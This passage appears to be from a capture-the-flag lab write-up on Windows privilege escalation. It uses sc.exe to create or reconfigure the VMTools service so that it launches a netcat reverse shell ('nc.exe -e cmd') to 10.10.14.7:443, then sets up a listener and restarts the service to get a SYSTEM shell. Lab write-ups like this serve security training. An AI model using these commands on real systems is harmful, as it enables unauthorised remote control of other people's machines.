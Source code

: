### 4.3 Service Abuse (Option 1 - Netcat Reverse Shell)

Attempt to create a new service:

```bash
sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.7 443"
```

If creation fails, modify an existing one (e.g., `VMTools`):

![create_process.png](screenshots/create_process.png)

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.7 443"
```

![identify_process_to_change.png](screenshots/identify_process_to_change.png)

---

### 4.4 Gaining SYSTEM Shell

On our machine, listen for incoming connection:

```bash
nc -nlvp 443
```

Restart the modified service:

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

🏁 **Root flag obtained**  